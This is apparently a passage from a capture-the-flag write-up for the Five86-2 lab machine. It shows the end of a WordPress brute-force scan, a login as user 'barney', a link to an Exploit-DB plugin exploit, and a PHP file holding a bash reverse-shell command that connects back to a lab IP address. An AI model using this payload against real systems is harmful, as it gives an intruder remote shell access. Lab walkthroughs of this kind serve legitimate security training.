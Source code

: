     [+] Finished: Mon Mar  2 20:13:56 2020
    [+] Requests Done: 203029
    [+] Cached Requests: 11
    [+] Data Sent: 98.329 MB
    [+] Data Received: 119.479 MB
    [+] Memory used: 1.088 GB
    [+] Elapsed time: 00:50:1
    
    
    
    

![Five86%202/fiveusers.png](Five86%202/fiveusers.png)

login using barney and looked at plugins 

![Five86%202/word.png](Five86%202/word.png)

quick google search and 

[https://www.exploit-db.com/exploits/46981](https://www.exploit-db.com/exploits/46981)

created two files with this 

1.php

    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.61.144/888 0>&1'");
